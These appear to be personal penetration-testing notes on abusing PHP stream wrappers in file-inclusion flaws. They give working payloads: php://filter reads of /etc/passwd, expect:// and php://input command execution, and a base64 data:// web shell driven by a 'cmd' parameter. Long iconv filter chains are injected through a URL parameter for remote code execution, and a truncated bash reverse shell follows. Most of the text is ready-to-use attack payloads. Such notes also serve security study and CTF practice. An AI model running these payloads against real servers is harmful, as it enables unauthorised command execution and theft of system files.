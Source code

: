 # Convert to base64

This wrapper represent the information in base64

````python
php://filter/convert.base64-encode/resource=/etc/passwd
````

----

# Rotate the characters in 13 positions

````python
php://filter/read=string.rot13/resource=secret.php
````

Then you can rotate the positions with **tr**

````bash
cat data | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'
````

In the first block:
The code to rotate start by can and finish de alphabet, next you have to finish the rest of the alphabet and repeat the same in mayus.

Second block:
Convert to:

Where is the c you want to see a **p** and then finish the alphabet

-----

# Convert utf-8 to utf-16
To see these response **you have to see the source code**

````python
php://filter/convert.iconv.utf-8.utf-16/resource=secret.php
````

---

# Wrapper that allow to execute commands | Wrappers to do an RCE

````python
expect://whoami
````

## Send data

````python
# Rember, put the petition in POST
php://input
# ....
# ....
# ....
# ....

<?php  system('whoami'); ?>

````

You have to change the petition to **POST**

------

## Executing commands with base64

````python
data://text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKSA/Pg==
````

This string in base64 means that:
````php
<?php system('whoami') ?>
````

### You can control the command with an param in the url

````python
<?php system($_GET['cmd']); ?>
````

If don't work think that the string can be url encode some character, you can url enconde all

In the url would look something like this:
````python
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2b&cmd=whoami
````

Look the concatenation with & and the param that we put

---

# Filter Chains

Represent a character in other format

`convert.iconv.UTF8.UTF7` --> To avoid the problems in case that the string have \==

````python
php://filter/convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/tmp/test'
````

You can add character when and remove the last when you (in base64) when use this:
1. Change UTF8 to CSISO2022KR
2. Decode  the information from base64
3. Convert the information in base64

In this example the String don't have \==

````python
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode/resource=/tmp/test'
````

![](../../../Images/Pasted%20image%2020230712144605.png)

You can put /etc/passwd...

Or you can create some characters and after change this 

````python
php://filter/convert.iconv.UTF8.CSISO2022KR/resource=php://temp
````


`php://temp` --> Allow to keep data temporally. This is very useful when you don't know any resource you can use this wrapper 

If you want to put the characters you have to turn it, e.x --> hello --> olleh

If you mode interactive with php you can see that you put an a at the first of all:

````php
php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7/resource=php://temp');" | xxd
````

You can see that we obtain an **o**

![](../../../Images/Pasted%20image%2020230712150354.png)

To add an l you have to do the same but adding the content:

1. At the end you have to add a pipe, add the new characters (that is in the script of the automation tool )
2. add decode, encode and UTF8 to UTF7 to solution the problem with =\= (`convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7`)

````php
 php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7/resource=php://temp');" | xxd
````

Equal with all the rest of characters....

````php
php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7/resource=php://temp');" | xxd
````

![](../../../Images/Pasted%20image%2020230712151403.png|1500)

You can put this in a url to **inject command**

````python
http://localhost/?filename=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7/resource=php://temp
````

# Automation tool

https://github.com/synacktiv/php_filter_chain_generator

When you use the tool you can use:
````php
<?php sytem($_GET['cmd']); ?>
````

This allow you to put command using the parameter cmd in the url like this:  

>&cmd=id

Remember that you have tu URL encode some characters like (&)

And then you can use a reverse shell | bash -c "bash -i >%26 /dev/...."

---

# Tags

#wrappers #filterchains 

---